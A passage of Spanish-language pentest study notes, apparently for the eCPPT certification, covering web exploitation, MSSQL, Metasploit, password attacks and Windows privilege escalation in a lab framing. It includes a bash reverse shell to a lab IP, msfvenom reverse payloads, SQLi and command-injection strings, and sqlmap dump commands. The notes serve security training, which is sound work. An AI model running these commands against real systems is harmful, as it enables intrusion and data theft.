<p align="center"><sub><strong>Contexto histórico de un ticket.</strong></sub></p>

</details>

<details>
<summary><strong>📸 Golden Ticket: dominio y krbtgt</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Diferencia entre identidades y claves.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información asociada a krbtgt.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Registro histórico de un TGT.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Propiedades históricas de un ticket.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Sesión histórica con un ticket.</strong></sub></p>

</details>

[↑ Volver al índice](#indice)

---

<a id="acceso-inicial"></a>
## 🔑 Acceso inicial y contraseñas

### Distinguir las pruebas

| Técnica | Qué prueba | Qué controlar |
|---|---|---|
| Enumeración de usuarios | Existencia de una identidad | Mensajes diferentes y falsas confirmaciones |
| Password spraying | Una contraseña en varias cuentas | Umbral, ventana de observación y cuentas ya bloqueadas |
| Fuerza bruta | Varias contraseñas sobre una cuenta | Bloqueos, tiempo y número de intentos |
| Reutilización | Una credencial encontrada en otro servicio | Cuenta local/dominio, alcance e identidad efectiva |
| Cracking offline | Candidatos contra un hash ya obtenido | Formato, tipo de cifrado y presupuesto de cómputo |

Antes de probar contraseñas, consulta la política y registra los intentos anteriores. Un retardo arbitrario **no garantiza** evitar bloqueos: varias herramientas suman fallos sobre la misma cuenta y puede haber políticas granulares distintas.

```bash
# Validar una sola credencial en un solo host
crackmapexec smb "10.10.10.20" -d "lab.example" -u "alumno" -p 'PASSWORD'
# Si la cuenta pertenece a la SAM local del host
crackmapexec smb "10.10.10.20" --local-auth -u 'labadmin' -p 'PASSWORD'
# Una contraseña candidata, lista de usuarios y un DC concreto
# Ejecutar solo tras establecer el presupuesto de intentos
crackmapexec smb "10.20.20.10" -d "lab.example" -u users.txt -p 'ONE_CANDIDATE' --continue-on-success
```

`--continue-on-success` continúa las comprobaciones; no limita el número de fallos por usuario. Una contraseña vacía es una prueba de autenticación más. Un `[+]` demuestra la autenticación que esa herramienta ha comprobado; no concede por sí mismo RDP, WinRM ni administración.

<a id="auth-formularios"></a>
### Hydra en un laboratorio

```bash
# Lista pequeña, un usuario y pocas conexiones
hydra -l "alumno" -P candidates.txt -t 2 -f "10.10.10.20" ssh
# Formulario ficticio: adaptar ruta, parámetros y señal de fallo
hydra -l 'labuser' -P candidates.txt -t 2 -f "10.10.10.20" http-post-form \
  '/login:username=^USER^&password=^PASS^:F=Invalid credentials'
```

Primero captura una petición real con Burp y prueba un fallo conocido. Si el formulario usa CSRF dinámico, MFA, CAPTCHA o respuestas idénticas, esa receta no basta. Verifica manualmente cualquier resultado; un cambio de longitud o un `302` pueden ser un error, una redirección a login o un bloqueo.

[↑ Volver al índice](#indice)

---

<a id="web"></a>
## ⚔️ Explotación web y servicios comunes

<a id="web-enumeracion"></a>
### Enumeración: IP, nombre, protocolo y sesión

```bash
curl -i "http://10.10.10.20/"
curl -I "http://10.10.10.20/"
whatweb "http://10.10.10.20"
curl -sS "http://10.10.10.20/robots.txt"
curl -sS "http://10.10.10.20/sitemap.xml"
curl -i -H 'Host: portal.lab.example' "http://10.10.10.20/"
curl --resolve "portal.lab.example:443:10.10.10.20" https://portal.lab.example/
```

`-I` envía HEAD; algunos servidores lo procesan de forma distinta a GET. `--resolve` permite probar un FQDN concreto con Host y SNI adecuados. Si el certificado no es de confianza en el laboratorio, revisa el certificado antes de recurrir a `-k` para una prueba puntual.

Anota servidor, framework, lenguaje, cookies, redirecciones, rutas y comportamiento antes/después de autenticarte. Un banner puede estar modificado; confirma versiones por más de una pista.

```bash
ffuf -u "http://10.10.10.20/FUZZ" -w "/usr/share/seclists/Discovery/Web-Content/common.txt" -ac -rate 30 -o scans/web-paths.json
gobuster dir -u "http://10.10.10.20" -w "/usr/share/seclists/Discovery/Web-Content/common.txt" -x php,txt,bak -t 10
ffuf -u "http://10.10.10.20/" -H 'Host: FUZZ.lab.example' \
  -w vhosts.txt -ac -rate 20 -o scans/vhosts.json
```

**Calibración:** visita dos rutas inexistentes y compara código, tamaño, palabras y contenido. Un `200` puede ser un falso 404; un `403` puede ser una ruta real o una regla global. En ffuf, `-fs`, `-fw` y `-fl` filtran tamaño, palabras y líneas. Inspecciona manualmente las coincidencias que sobreviven al filtro. No descartes redirecciones sin seguir su destino.

Referencia: [ffuf](https://github.com/ffuf/ffuf). El DNS brute force descubre nombres mediante DNS; el vhost fuzzing compara cómo responde el servidor HTTP a distintos Host. Son pruebas distintas.

### Burp Suite: un flujo mínimo

1. Navega por el proxy y registra la petición original, incluyendo cookies y Content-Type.
2. Envía a Repeater y cambia **un parámetro cada vez**.
3. Guarda una respuesta de control y una de prueba.
4. Repite para descartar errores aleatorios, caché o sesión caducada.
5. Documenta parámetro, contexto de ejecución, identidad y efecto real.

En ZAP, delimita el contexto antes de un escaneo activo. Un resultado automatizado es una hipótesis; la confirmación debe ser reproducible.

| Herramienta de Burp | Para qué usarla |
|---|---|
| Repeater | Repetir una petición y comparar una modificación cada vez |
| Decoder | Leer o transformar representaciones URL, HTML o Base64 |
| Intruder | Automatizar variaciones de campos delimitados y comparar las respuestas |

Decoder cambia la representación del dato; no demuestra una vulnerabilidad. [Referencia de Burp Decoder](https://portswigger.net/burp/documentation/desktop/tools/decoder).

<details>
<summary><strong>📸 Burp Decoder</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Codificación y contexto de entrada.</strong></sub></p>

</details>

<a id="sql-injection"></a>
### SQL injection: comprobar antes de automatizar

| Tipo de SQLi | Qué observas |
|---|---|
| In-band · error-based | El mismo canal devuelve errores que revelan información del motor o de la consulta |
| In-band · UNION-based | La respuesta incorpora datos de una consulta compatible en número y tipos de columnas |
| Blind · boolean-based | Una condición cambia la respuesta sin mostrar directamente los datos |
| Blind · time-based | Una condición provoca una diferencia de tiempo que debes contrastar con una petición de control |

Una comilla que devuelve un error no demuestra por sí sola SQLi. Compara valores equivalentes, verdaderos y falsos; observa qué parte de la consulta puedes controlar. La sintaxis depende del motor y del contexto.

```sql
-- Ejemplos conceptuales para un parámetro numérico
1 AND 1=1
1 AND 1=2
-- Para identificar columnas, ampliar gradualmente
1 ORDER BY 1
1 ORDER BY 2
-- Ejemplo si se han confirmado tres columnas compatibles
1 UNION SELECT NULL,NULL,NULL-- -
```

| Motor | Versión / contexto | Catálogo útil |
|---|---|---|
| MySQL/MariaDB | `VERSION()`, `DATABASE()`, `USER()` | `information_schema.tables` |
| PostgreSQL | `version()`, `current_database()`, `current_user` | `information_schema.tables` |
| MSSQL | `@@VERSION`, `DB_NAME()`, `SYSTEM_USER` | `sys.databases`, `sys.tables` |
| SQLite | `sqlite_version()` | `sqlite_master` |

UNION necesita el mismo número de columnas y tipos compatibles. Utiliza `NULL` para reducir incompatibilidades y localiza qué columna se refleja. Ejemplo de SQLite **solo cuando ya se han confirmado tres columnas y la primera se muestra**:

```sql
1 UNION SELECT sqlite_version(),NULL,NULL-- -
1 UNION SELECT name,NULL,NULL FROM sqlite_master WHERE type='table'-- -
1 UNION SELECT sql,NULL,NULL FROM sqlite_master WHERE type='table'-- -
```

En MySQL, `#` inicia un comentario. En una URL debe codificarse como `%23` para no convertirse en un fragmento que el navegador omite. `--` tiene reglas distintas por motor; en MySQL debe ir seguido de espacio o control.

```bash
# Petición HTTP guardada desde Burp; limitar a un parámetro
sqlmap -r request.txt -p id --batch --level=1 --risk=1 --current-db
# Después de confirmar y elegir una base
sqlmap -r request.txt -p id -D labapp --tables
sqlmap -r request.txt -p id -D labapp -T lab_users --columns
# Seleccionar únicamente columnas necesarias para la práctica
sqlmap -r request.txt -p id -D labapp -T lab_users -C username --dump
```

Reutiliza el mismo contexto y cookies de la petición validada. `--technique=E` limita a error-based y `--technique=U` a UNION; restringirlas sin motivo puede ocultar otras variantes. No empieces por `--risk=3`, un volcado completo o `--os-shell`.

En SQLi ciega, compara condiciones verdaderas/falsas y repite mediciones de tiempo con controles. Una respuesta lenta aislada no demuestra ejecución de `SLEEP` ni de `WAITFOR`.

Referencias: [SQL injection de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), [uso de sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

<details>
<summary><strong>📸 Capturas de SQL Injection</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Petición y parámetro de entrada.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Respuesta de error SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Comparación de peticiones.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Selección de parámetros.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de una petición guardada.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Opciones de una herramienta SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Petición capturada en el proxy.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Respuesta observada de la aplicación.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información devuelta por una consulta.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Comparación de resultados SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Referencia de sintaxis SQL.</strong></sub></p>

</details>

<details>
<summary><strong>📸 Capturas de UNION SQLi</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Forma de la consulta y columnas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información del motor SQLite.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Metadatos de tablas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Definición de tablas SQLite.</strong></sub></p>

</details>

<a id="xss"></a>
### XSS: reflejado, almacenado y DOM

| Tipo | Dónde seguir los datos | Prueba mínima |
|---|---|---|
| Reflejado | Entrada → respuesta HTML inmediata | Marcador único y ejecución en tu navegador de prueba |
| Almacenado | Entrada → almacenamiento → otro renderizado | Guardar un marcador y verificar su aparición posterior |
| DOM | Fuente JavaScript → sink del navegador | Trazar `location`, fragmentos o mensajes hacia el sink |

```html
<!-- Pruebas de laboratorio; el contexto decide cuál puede funcionar -->
<script>alert('ecppt-lab')</script>

```

Primero introduce un marcador inocuo y revisa dónde se refleja: texto HTML, atributo, cadena JavaScript o URL. Los filtros y la codificación cambian lo que puede ejecutarse. En DOM XSS, revisa sinks como `innerHTML`, `document.write` o `eval` y qué controla realmente el usuario.

**No equivalencias:** reflejar texto no es ejecutar JavaScript; ejecutar JavaScript no es RCE en el servidor; `HttpOnly` impide que JavaScript lea esa cookie, aunque no soluciona el XSS. Documenta contexto e impacto sin extraer sesiones de terceros.

<details>
<summary><strong>📸 Capturas de XSS y DOM XSS</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Referencia a un caso publicado.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de XSS almacenado.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Código JavaScript de la aplicación.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Flujo de datos en JavaScript.</strong></sub></p>

</details>

### Inyección de comandos

Identifica funciones que llaman herramientas del sistema: ping, conversión, compresión o generación de informes. Haz una prueba mínima y observa un efecto diferenciable.

```text
Linux, si el valor llega a una shell: 127.0.0.1; id
Windows cmd, si el valor llega a cmd: 127.0.0.1 & whoami
```

Los separadores no son intercambiables entre Bash, cmd, PowerShell y ejecución sin shell. En una prueba ciega usa un retardo pequeño y compara varias veces con una petición sin retardo. Una respuesta con el texto `id` no demuestra ejecución: busca la salida del comando y conserva la petición exacta.

<a id="lfi-upload"></a>
### Traversal, LFI, RFI y subida de archivos

| Situación | Comprobación | Condición para avanzar |
|---|---|---|
| Parámetro de fichero | Ruta de prueba como `../../../../etc/hostname` | Lectura de un recurso ajeno al directorio esperado |
| PHP include local | Diferenciar lectura e interpretación | Que el recurso termine siendo interpretado por PHP |
| PHP filter | `php://filter/convert.base64-encode/resource=index.php` | Wrapper permitido y ruta válida |
| Include remoto | Revisar configuración del intérprete | LFI no implica RFI; depende de opciones como `allow_url_include` |
| Subida | Archivo de texto único y localizarlo | Saber directorio final, renombrado y permisos |
| Subida ejecutable | Prueba mínima en laboratorio | Extensión procesada por un intérprete en esa ubicación |

Para una aplicación PHP de laboratorio que procese ficheros subidos, una prueba acotada de ejecución es:

```php
<?php echo 'ecppt-lab-' . PHP_VERSION; ?>
```

Que una doble extensión o un Content-Type distinto permita subir no garantiza ejecución. No extrapoles técnicas de null byte a versiones modernas sin comprobar compatibilidad. En LFI, lectura de un archivo y ejecución de su contenido son hallazgos diferentes.

### IDOR, SSRF, XXE y autenticación

- **IDOR:** usa dos cuentas de prueba y compara acceso al mismo objeto. Debe demostrarse que una cuenta accede a un objeto que no le corresponde; cambiar un número y obtener otro objeto propio no basta.
- **SSRF:** confirma una petición a un endpoint de laboratorio que controles. Distingue respuesta del servidor, redirecciones y solicitud hecha por tu navegador. No recorras indiscriminadamente servicios internos.
- **XXE:** identifica un parser XML y comprueba si resuelve entidades externas con un recurso de prueba. Aceptar XML no demuestra XXE.
- **Autenticación:** comprueba expiración, cierre de sesión, recuperación de cuenta y autorización de rutas desde una sesión de prueba. Un JWT decodificable no permite modificarlo con una firma válida.
- **Deserialización/SSTI:** determina tecnología y punto de interpretación antes de escoger una prueba. Una operación aritmética reflejada no identifica por sí sola un motor concreto.

<a id="cms"></a>
### CMS y componentes desactualizados

```bash
wpscan --url "http://10.10.10.20" --enumerate u,p,t
wpscan --url "http://10.10.10.20" --enumerate vp --plugins-detection aggressive
searchsploit 'NOMBRE_COMPONENTE VERSION'
```

En WPScan, la información de vulnerabilidades puede requerir token; pásalo según la ayuda de la versión instalada. La ruta habitual de login es `/wp-login.php`, y `/wp-admin/` es el área de administración. Revisa cabeceras, HTML y archivos públicos para confirmar el CMS.

| Producto | Pistas iniciales | Evitar asumir |
|---|---|---|
| WordPress | Plugins, temas, REST API, usuarios | Que un administrador pueda editar PHP en cualquier despliegue |
| Joomla | Componentes y panel `/administrator/` | Que una ruta confirme una versión vulnerable |
| Drupal | Módulos, permisos, configuración visible | Que el núcleo esté vulnerable por ser Drupal |
| Tomcat | Manager, versión y roles | Que credenciales web permitan subir un WAR |
| Jenkins | Trabajos, credenciales de prueba, permisos | Que cualquier usuario tenga acceso a Script Console |

La explotación de componentes se decide por **versión + configuración + permisos + advisory**, no por el nombre del producto. Consulta [WPScan](https://github.com/wpscanteam/wpscan) y los avisos del proveedor antes de adaptar un PoC.

<details>
<summary><strong>📸 Capturas de WordPress, plugins y WPScan</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Identificación de WordPress.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Enumeración de componentes.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Resultados asociados a componentes.</strong></sub></p>

</details>

[↑ Volver al índice](#indice)

---

<a id="bases-datos"></a>
## 🗄️ Bases de datos y MSSQL

<a id="mssql"></a>
### MSSQL: identidad, permisos e impersonación

```bash
nmap -Pn -sV -p 1433 --script ms-sql-info,ms-sql-ntlm-info "10.10.10.20"
```

En una sesión ya autenticada de SQL Server:

```sql
SELECT @@VERSION;
SELECT SYSTEM_USER AS login_actual, ORIGINAL_LOGIN() AS login_original;
SELECT USER_NAME() AS usuario_bd, DB_NAME() AS base_actual;
SELECT IS_SRVROLEMEMBER('sysadmin') AS es_sysadmin;
SELECT name FROM sys.databases;
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
SELECT name,type_desc FROM sys.server_principals;
```

`IS_SRVROLEMEMBER` puede devolver `1`, `0` o `NULL`; interpreta el contexto y la visibilidad. Que aparezca `sa` en una lista de logins **no indica que tú seas sysadmin** ni lo contrario.

```sql
SELECT grantee.name AS beneficiario,
       target.name AS login_objetivo,
       perm.permission_name, perm.state_desc
FROM sys.server_permissions AS perm
JOIN sys.server_principals AS grantee
  ON perm.grantee_principal_id = grantee.principal_id
JOIN sys.server_principals AS target
  ON perm.major_id = target.principal_id
WHERE perm.class_desc = 'SERVER_PRINCIPAL'
  AND perm.permission_name = 'IMPERSONATE';
```

Esta consulta muestra permisos visibles, no todas las rutas posibles; la pertenencia a roles y permisos heredados requiere análisis adicional. `grantor` es quien concede el permiso, `grantee` quien lo recibe: no se deben intercambiar.

```sql
-- Solo si se ha confirmado permiso para impersonar este login
EXECUTE AS LOGIN = 'lab_svc';
SELECT SYSTEM_USER, ORIGINAL_LOGIN(), IS_SRVROLEMEMBER('sysadmin');
REVERT;
```

<details>
<summary><strong>📸 MSSQL: descubrimiento e identidad</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Identificación de SQL Server.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información de versión SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Principales y roles SQL.</strong></sub></p>

</details>

#### xp_cmdshell: una transición de SQL al sistema operativo

Antes de habilitarlo, registra el estado de `show advanced options` y `xp_cmdshell` en `sys.configurations`. Hace falta permiso; habilitarlo cambia la configuración del servidor.

```sql
SELECT name, value_in_use FROM sys.configurations
WHERE name IN ('show advanced options','xp_cmdshell');
-- Si ya está habilitado y tu contexto puede ejecutarlo:
EXEC master..xp_cmdshell 'whoami';
```

Verifica la identidad del proceso: normalmente será la cuenta del servicio SQL o una cuenta proxy, **no necesariamente SYSTEM**. Restaura exactamente los valores previos al finalizar, no un estado supuesto.

Un linked server es otro contexto: registra destino, mapeo de login y permisos; que exista no implica que RPC OUT esté permitido. No confundas `EXECUTE AS USER` (base de datos) con `EXECUTE AS LOGIN` (servidor).

<details>
<summary><strong>📸 MSSQL: permisos, impersonación y ejecución</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Permisos de impersonación SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Identidad efectiva en SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Cambio de contexto SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de un principal SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Relación entre identidades SQL.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Identidad de un proceso externo.</strong></sub></p>

</details>

<details>
<summary><strong>📸 MSSQL: contexto de la sesión obtenida</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Integración histórica de herramientas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Contexto de ejecución de un proceso.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Sesión histórica de laboratorio.</strong></sub></p>

</details>

### MySQL/MariaDB, PostgreSQL y SQLite

```bash
mysql -h "10.10.10.20" -u labuser -p
psql -h "10.10.10.20" -U labuser -d labapp
sqlite3 lab.db
```

```sql
-- MySQL/MariaDB
SELECT VERSION(),CURRENT_USER(),USER(),DATABASE();
SHOW DATABASES;
SHOW GRANTS;
-- Después de seleccionar una base autorizada
USE labapp;
SHOW TABLES;
DESCRIBE lab_users;
SELECT username FROM lab_users LIMIT 10;
```

```text
# En psql
\conninfo
\l
\dn
\dt
\du
# En sqlite3
.databases
.tables
.schema
```

Tener acceso a una base no equivale a poder leer archivos del SO o ejecutar comandos. Para funciones de archivos, extensiones o procesos, identifica los privilegios y restricciones específicos del motor. En SQLite también importan el propietario del archivo y sus permisos locales.

[↑ Volver al índice](#indice)

---

<a id="metasploit"></a>
## 🚀 Metasploit, payloads y shells

### Elegir un módulo con criterio

```text
msfconsole -q
db_status
workspace -a ecppt-lab
db_import scans/services.xml
hosts
services
search type:exploit name:NOMBRE_SERVICIO
use RUTA_DEL_MODULO
info
show options
show targets
show payloads
set RHOSTS 10.10.10.20
set RPORT PUERTO_CONFIRMADO
set LHOST 10.10.14.5
set LPORT 4444
check
```

`workspace` y `db_import` requieren la base de datos configurada. Revisa referencias, arquitectura y efectos del módulo antes de `run`. No todos los módulos implementan `check`; un resultado `unknown` no confirma ni descarta la vulnerabilidad. Elige un `TARGET` únicamente entre los mostrados por ese módulo.

| Parámetro | A qué apunta |
|---|---|
| `RHOSTS` | Objetivo o lista de objetivos |
| `RPORT` | Puerto del servicio objetivo |
| `LHOST` | Dirección a la que volverá un payload reverse |
| `LPORT` | Puerto de recepción de ese payload |
| `SRVHOST` / `SRVPORT` | Dirección y puerto del servidor que levanta el módulo |
| `SESSION` | Sesión existente sobre la que opera un módulo post |
| `VHOST` / `TARGETURI` | Host virtual y ruta de una aplicación, si el módulo los admite |

### Staged, stageless y arquitectura

```bash
msfvenom --list payloads
msfvenom --list formats
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST="10.10.14.5" LPORT="4444" -f exe -o transfer/lab-meterpreter.exe
msfvenom -p linux/x64/shell_reverse_tcp \
  LHOST="10.10.14.5" LPORT="4444" -f elf -o transfer/lab-shell.elf
```

El payload y el handler deben coincidir exactamente. `meterpreter/reverse_tcp` y `meterpreter_reverse_tcp` son nombres distintos y pueden corresponder a entrega por etapas o en una sola etapa. Confirma que el nombre exista en tu instalación y que el formato sea adecuado para el sistema.

```text
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
set ExitOnSession false
run -j
jobs
sessions -l
sessions -i 1
```

Un listener Netcat recibe una shell de texto compatible; no sustituye al handler de Meterpreter. Que un EXE sea de 64 bits no demuestra que el proceso donde se ejecuta o migra admita ese contexto.

### Meterpreter: comprobar contexto antes de actuar

| Comando | Qué comprobar |
|---|---|
| `sysinfo` | SO, arquitectura y nombre |
| `getuid` | Identidad efectiva de la sesión |
| `getprivs` | Privilegios visibles |
| `pwd`, `ls`, `cd` | Ubicación y archivos accesibles |
| `ipconfig`, `route` | Interfaces y rutas del host |
| `ps` | Procesos, propietarios y arquitectura disponible |
| `shell` | Consola del sistema con ese contexto |
| `download`, `upload` | Transferencia de archivos concretos |
| `background` | Volver a msfconsole manteniendo la sesión |
| `help` | Sintaxis y extensiones de la versión instalada |

`getsystem` puede fallar; no sustituye a identificar una ruta de escalada. Migrar de proceso puede romper la sesión y requiere permisos. No borres eventos: son parte de las evidencias de la prueba.

### Shell reverse y estabilización Linux

En el equipo de pruebas:

```bash
nc -lvnp 4444
```

En el host Linux de laboratorio, si Bash y la salida de red lo permiten:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
```

Después, dentro de una shell limitada:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Para completar el control de terminal: pulsa `Ctrl+Z`; en la terminal **local** ejecuta `stty raw -echo`, después `fg` y pulsa Enter. Ajusta filas/columnas con `stty rows FILAS columns COLUMNAS`. Si queda sin eco, restaura con `stty sane` en la terminal local. Este procedimiento depende de que el terminal permita control de trabajos.

**Si no llega la conexión:** escucha, IP de retorno, ruta desde el objetivo, firewall de salida, arquitectura y coincidencia del payload. Si llega y se cierra: proceso que termina, timeout de la aplicación, restricción del intérprete o protocolo incompatible.

[↑ Volver al índice](#indice)

---

<a id="windows"></a>
## 🪟 Post-explotación y escalada Windows

<a id="identidad-windows"></a>
### Identidad, integridad y sistema

```powershell
whoami /all
whoami /priv
whoami /groups
hostname
systeminfo
Get-LocalGroup
Get-LocalUser
Get-CimInstance Win32_Service |
    Select-Object Name,StartName,State,PathName
Get-ScheduledTask | Select-Object TaskName,TaskPath,State
Get-NetTCPConnection -State Listen
```

Algunos cmdlets dependen de módulos, edición o arquitectura. Como alternativa usa `net user`, `net localgroup`, `schtasks /query /fo LIST /v` y `netstat -ano`. Los nombres de grupos locales pueden estar traducidos.

**Separar:** pertenecer a Administrators, tener un token elevado, nivel de integridad alto y ser SYSTEM. `whoami /groups` puede mostrar grupos usados solo para denegación; una cuenta administradora puede estar ejecutando un token filtrado por UAC.

<details>
<summary><strong>📸 Identidad, grupos y privilegios Windows</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Identidad de una sesión.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Privilegios del token.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Miembros del grupo local.</strong></sub></p>

</details>

### Credenciales locales y configuración

```powershell
cmdkey /list
Get-PSReadLineOption | Select-Object HistorySavePath
Get-Content (Get-PSReadLineOption).HistorySavePath -ErrorAction SilentlyContinue
Get-ChildItem 'C:\Windows\Panther' -Filter '*unattend*.xml' -ErrorAction SilentlyContinue
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

`cmdkey /list` muestra referencias a credenciales, no sus contraseñas. `runas /savecred` solo funciona si existe una credencial guardada utilizable para esa operación. No presupongas que todo valor en un archivo de instalación está codificado en Base64: revisa formato y campos.

Para historiales, backups de configuración, perfiles de aplicaciones y archivos RDG, determina primero el propietario y el mecanismo de protección. DPAPI vincula datos a un contexto y claves; tener un archivo cifrado no garantiza poder descifrarlo.

<details>
<summary><strong>📸 Credenciales y configuración local</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Consulta de la configuración de inicio automático en Winlogon.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Archivos de instalación Windows.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Formato de un valor almacenado.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Referencias de credenciales guardadas.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Uso histórico de una identidad.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Historial de PowerShell.</strong></sub></p>

</details>

### Aplicaciones, perfiles y credenciales almacenadas

El inventario de aplicaciones ayuda a localizar clientes, servicios y perfiles relevantes. En los apuntes aparecen FileZilla y archivos RDG: identifica el propietario del perfil, el servicio al que pertenece cada dato y su protección. Un nombre de usuario o una dirección de conexión no equivalen a una contraseña; los secretos protegidos con DPAPI requieren el contexto y las claves adecuados.

<details>
<summary><strong>📸 Aplicaciones y perfiles de usuario</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Inventario de aplicaciones.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Configuración de un cliente.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Relación entre DPAPI e identidad.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información de una configuración remota.</strong></sub></p>

</details>

<a id="servicios-windows"></a>
### Servicios: ruta, archivo, directorio y permiso del objeto

```powershell
sc.exe qc NOMBRE_SERVICIO
sc.exe query NOMBRE_SERVICIO
sc.exe sdshow NOMBRE_SERVICIO
icacls 'C:\Program Files\Lab App'
icacls 'C:\Program Files\Lab App\service.exe'
Get-Acl 'C:\Program Files\Lab App\service.exe' | Format-List
```

En PowerShell usa `sc.exe`: `sc` puede ser un alias de otra cosa. Distingue cuatro permisos: cambiar configuración del servicio, modificar el ejecutable, crear archivos en un directorio de la ruta y arrancar/reiniciar el servicio.

| Hallazgo | Cuándo permite escalar |
|---|---|
| Binario modificable | El servicio privilegiado ejecutará el binario modificado |
| Ruta sin comillas | Contiene espacios y puedes escribir en una ubicación candidata anterior |
| Configuración modificable | Tu identidad puede cambiar `binPath` y provocar una ejecución válida |
| Directorio modificable | El proceso cargará un archivo que controles desde esa ubicación |

Una ruta sin comillas en un directorio no escribible no basta. Un servicio que corre como tu mismo usuario tampoco eleva privilegios. Guarda configuración y ACL antes de cambiar un recurso y restaura después de la demostración.

<details>
<summary><strong>📸 Permisos de un archivo o servicio</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Permisos de un archivo.</strong></sub></p>

</details>

### Tareas programadas y AutoRuns

```powershell
schtasks /query /fo LIST /v
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
```

Correlaciona identidad de ejecución, disparador, ruta y permisos. Una clave Run de tu propio usuario mantiene ejecución en ese contexto; no crea administración. Autoruns y Process Monitor pueden aportar evidencia de qué archivo se intenta cargar.

En las claves Run revisa **qué principal tiene qué permiso sobre la clave** y qué identidad ejecutará la entrada. Poder leer una ruta no implica poder modificarla; distingue las ACL de la clave del Registro y las del archivo al que apunta.

<details>
<summary><strong>📸 AutoRuns y permisos del Registro</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Programas de inicio automático.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Permisos del registro.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Cambio histórico en el registro.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Registro de un cambio de laboratorio.</strong></sub></p>

</details>

### AlwaysInstallElevated

```powershell
reg query "HKCU\Software\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated
reg query "HKLM\Software\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated
```

El caso típico exige que **ambas** políticas estén habilitadas. Ver solo HKLM no confirma la condición. Documenta los valores y prueba únicamente con un paquete de laboratorio cuyo efecto puedas verificar y revertir.

<a id="tokens-windows"></a>
### Privilegios del token e impersonación

Distingue un privilegio **presente, habilitado y utilizable** en el token actual.

| Privilegio | Qué puede habilitar | Qué no demuestra |
|---|---|---|
| `SeImpersonatePrivilege` | Impersonar determinados tokens de clientes | Que cualquier Potato funcione en cualquier build |
| `SeBackupPrivilege` | Lectura mediante semántica de backup | Acceso arbitrario usando cualquier API |
| `SeRestorePrivilege` | Operaciones de restauración privilegiadas | Que debas sobrescribir archivos críticos |
| `SeDebugPrivilege` | Acceso a ciertos procesos | Que PPL o Credential Guard estén desactivados |
| `SeTakeOwnershipPrivilege` | Tomar propiedad en condiciones aplicables | Que ya tengas la DACL necesaria para leer/escribir |

